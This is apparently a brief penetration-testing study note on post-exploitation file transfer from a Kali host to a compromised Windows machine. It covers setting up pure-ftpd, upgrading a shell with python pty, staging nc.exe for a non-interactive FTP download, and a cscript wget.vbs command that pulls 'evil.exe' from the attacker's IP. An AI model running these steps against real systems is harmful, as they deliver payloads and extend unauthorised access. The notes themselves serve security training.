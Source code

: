 do not install new tool, use native tools

# pure-ftpd
//install on kali
sudo apt update && sudo apt-y install pure-ftpd

# non-interactive shells
lack job control, su support, etc. or any feedback on what we are doing

* ``ls`` command not interactive
* ``ftp`` is an interactive program (requires user interaction to complete)
* go get interactive shell:
``python -c "import pty;pty.spawn('/bin/bash')"``

# windows 
## File transfer via FTP
* in our kali place this binary: ``sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/``
* restart ftp: ``sudo systemctl restart pure-ftpd``
* on target windows system: transfer file of *ftp.txt* by typing: ``ftp -v -n -s:ftp.txt`` should be the kali ip, *kali* is the ftp pw in this file
* The ftp -s option accepts a text-based command list that effectively makes the client noninteractive.

## Windows Downloads Using Scripting Languages
* use (file)[scripts\filedownload\wget.vbs] to get download a file
* cpy the wget on linux by ``sudo cp /usr/share/windows-resources/binaries/wget.exe /var/www/html/``
* execute command ``cscript wget.vbs http://10.11.0.4/evil.exe evil.exe``


